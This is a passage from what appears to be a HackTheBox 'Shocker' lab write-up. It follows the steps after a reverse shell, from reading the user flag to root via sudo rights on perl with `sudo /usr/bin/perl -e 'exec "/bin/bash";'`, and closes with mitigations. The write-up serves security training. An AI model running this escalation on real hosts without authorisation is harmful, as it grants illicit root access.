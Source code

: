 After [upgrading this reverse netcat shell to a pseudo terminal](https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2),
we can see that we are now executing code as the `shelly` user:

```
shelly@Shocker:/usr/lib/cgi-bin$ id                                 
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Navigating to the `/home/shelly` directory, we can find the user flag:

```bash
shelly@Shocker:/home/shelly$ cat /home/shelly/user.txt   
2ec24e11320026d1e70ff3e16695b233
```

## Privilege Escalation

One of the easist privilge escalation vectors to check for in Linux is `sudo` permissions. We can list sudo permissions like the following:

```
$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

We can then abuse the `/usr/bin/perl` command to gain remote code execution on the host with root privileges:

```
$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
root@Shocker:/home/shelly# id
uid=0(root) gid=0(root) groups=0(root)
```

Navigating to `/root`, we can get the root flag:

```
cat /root/root.txt
52c2715605d70c7619030560dc1ca467
```

## Mitigations

* Upgrade bash to the latest version available.
* Use a dedicated `apache` user to run the web server. This way, you can still keep `shelly` as an admin user on the host and still run apache while reducing privilege escalation attack vectors.

Also, be very careful about granting `sudo` permissions to users. In this case, `/usr/bin/perl` is a very powerful command that can instantly grant a user a root shell.

